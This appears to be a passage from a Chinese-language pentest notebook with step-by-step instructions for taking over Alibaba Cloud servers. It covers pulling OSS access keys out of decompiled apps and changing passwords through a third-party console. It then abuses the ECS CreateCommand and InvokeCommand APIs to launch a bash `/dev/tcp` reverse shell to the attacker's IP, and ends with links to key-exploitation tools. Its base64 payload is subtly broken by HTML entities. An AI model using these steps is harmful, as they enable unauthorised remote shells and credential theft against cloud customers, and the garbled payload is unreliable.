 	反编译app文件，查找可能会包含oss key的文件，如JS。
	OSSAccessKey、AccessKeySecret使用OSS浏览器访问。
	第三方行云管家可修改系统密码。
	反弹shell
	From: https://xz.aliyun.com/t/8310
	https://api.aliyun.com/#/?product=Ecs
	搜索框搜索选择CreateCommand来创建一个命令
	CommandContent填命令的base64，Type填RunShellScript
	命令echo "bash -i >& /dev/tcp/你的IP/端口 0>&1"| base64
	bash -i >& /dev/tcp/你的IP/端口 0>&1
	YmFzaCAtaSAmZ3Q7JiAvZGV2L3RjcC8xLjEuMS4xLzQ0NDQgMCZndDsmMQ==
	填好以后点调试SDK
	会直接给你起一个Cloud shell
![image](/assets/Pentest_Note/master/img/842.png)

	并创建一个CreateCommand.py文件，使用vi编辑
![image](/assets/Pentest_Note/master/img/843.png)

	填accessKeyId,accessSecret保存执行，并记录Commandid
![image](/assets/Pentest_Note/master/img/844.png)

	再次在搜索框搜索InvokeCommand
![image](/assets/Pentest_Note/master/img/845.png)

	Commandid填上面请求的返回值，InstanceId填行云管家显示的实例ID
![image](/assets/Pentest_Note/master/img/846.png)

	填好了点调试sdk然后编辑文件把accessKeyId accessSecret填一下，执行
![image](/assets/Pentest_Note/master/img/847.png)

	然后看监听的服务器shell已经反弹成功
![image](/assets/Pentest_Note/master/img/848.png)

 ####工具
	https://github.com/iiiusky/alicloud-tools
	https://github.com/mrknow001/aliyun-accesskey-Tools